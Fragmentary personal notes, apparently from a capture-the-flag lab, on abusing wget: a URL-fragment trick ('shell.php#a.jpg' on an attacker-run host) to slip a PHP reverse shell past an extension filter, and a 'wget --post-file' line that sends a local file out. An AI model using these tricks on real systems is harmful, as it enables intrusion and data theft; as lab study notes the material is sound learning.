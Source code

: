 - When using wget the default user agent used  ![[Pasted image 20240201131052.png]]
- If there is  some filtering we can bypass it . It’s using Wget! If the application is just calling it with `exec()` or `system()`, maybe we can pull some shell shenanigans, to trick it into downloading our reverse shell, while keeping the `.php` file extension. I put in `http://10.10.14.144:8000/shell.php#a.jpg` as the URL. The PHP script will see the `.jpg` at the end, and accept it. However, the shell will ignore everything after the `#`, and Wget will ultimately download shell.php.
- wget file upload esclation
```
wget --post-file=$LFILE $URL
```

- Network devices do what we tell them to do , not what we think they should do 
  

